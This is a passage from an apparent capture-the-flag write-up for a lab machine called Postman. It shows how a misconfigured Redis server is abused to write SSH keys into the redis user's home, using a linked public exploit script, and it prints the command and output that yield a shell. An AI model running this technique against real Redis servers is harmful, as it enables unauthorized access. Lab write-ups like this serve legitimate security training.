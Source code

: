 From this printout, I can deduce that the user name is `redis` and the home directory is `/var/lib/redis` and can therefore save the SSH keys within the `.ssh` directory. There is a publicly available script to automate this by supplying the right directory and user name. Script can be found [here](https://github.com/Avinash-acid/Redis-Server-Exploit).

Editing the script to provide the correct redis user home directory, I executed it to obtain a shell as user redis:

```
$ python redis.py 10.10.10.160 redis
	*******************************************************************
	* [+] [Exploit] Exploiting misconfigured REDIS SERVER*
	* [+] AVINASH KUMAR THAPA aka "-Acid"
	*******************************************************************


	 SSH Keys Need to be Generated
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): redis
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in redis.
Your public key has been saved in redis.pub.
The key fingerprint is:
SHA256:yIpxrnNtdVFrHg5UFwbxeYrCwFVYjgGyKCn5AgypfxY acid_creative
The key's randomart image is:
+---[RSA 3072]----+
|..    . ..o=*o+. |
|+. . . + .o+.+ . |
|=.o . . o.....o .|
|oo .E. . oo +. o |
|..o ..o S o*...  |
| ..=o.  . ..o    |
|  .oo. . .       |
|  ... o          |
|  .o .           |
+----[SHA256]-----+
	 Keys Generated Successfully
OK
OK
OK
OK
OK
OK
	You'll get shell in sometime..Thanks for your patience

Last login: Tue Dec  3 13:24:55 2019 from 10.10.15.253
redis@Postman:~$ pwd
/var/lib/redis
redis@Postman:~$
```

### redis to Matt
